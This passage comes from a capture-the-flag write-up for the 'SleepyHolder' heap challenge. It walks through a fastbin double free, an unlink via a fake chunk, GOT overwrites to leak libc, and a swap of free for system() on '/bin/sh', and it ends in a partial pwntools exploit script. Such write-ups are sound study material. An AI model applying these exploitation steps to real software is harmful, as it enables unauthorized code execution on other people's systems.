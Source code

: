 Free the big chunk now, see the magic happen, the small\_secret in structure will point to 0x6020b8 after unlink.

We now have control over the contents in the structure. Overwrite the big\_secret with desired address and renew its value for arbitary read.

My obvious target was the GOT table as PIE is disabled, two small things left to do; leak libc address and get shell.

To got a leak, I overwrote free\_GOT with puts\_PLT and called free on atoi_GOT, leaking the resolvedlibc function address. 
To get the shell, I overwrote free_GOT with system() and freed a bss pointer to "/bin/sh".


### Here's my exploit code
```python
from pwn import *

s=process("./SleepyHolder.patch",env={'LD_PRELOAD' : './libc.so.6'})
libc=ELF("./libc.so.6")

def keep(ch,content,l=1):
	s.sendlineafter("3. Renew secret",str(1))
	if(l==1):
		s.recvline(4)
	else:
		s.recvline(3)
	s.sendline(str(ch))
	s.sendafter("Tell me your secret:",content)

def wipe(ch):
	s.sendlineafter("3. Renew secret",str(2))
	s.sendlineafter("2. Big secret",str(ch))

def renew(ch,content):
	s.sendlineafter("3. Renew secret",str(3))
	s.sendlineafter("2. Big secret",str(ch))
	s.sendafter("Tell me your secret:",content)

fake_chunk = p64(0x00) + p64(0x21) + p64(0x6020b8) + p64(0x6020c0) +p64(0x20)
atoi_GOT=0x602080
free_GOT=0x602018
puts_PLT=0x400760

# allocate both chunk; fastbin size and large bin size
keep(1,"asdasd")
keep(2,"asdasd")

# free fastbin size and then allocate huge chunk, now the fastbin chunk is in unsorted bin
wipe(1)
keep(3,"sdasd")

# free same chunk again to have it inn fastbin also
wipe(1)

# Allocate it back and create a fake chunk, also set the prev_size of the large chunk
keep(1,fake_chunk)

# Free the large such, unlink will be performed on the fake chunk
wipe(2)

# Small secret now points to address bss address, giving us control over all secret pointers

# Make the free_GOT the big secret, and renew it with puts_PLT
renew(1,p64(0x00) + p64(free_GOT) + p64(0x00) + p64(0x6020b8) + p32(0x1)*3)
```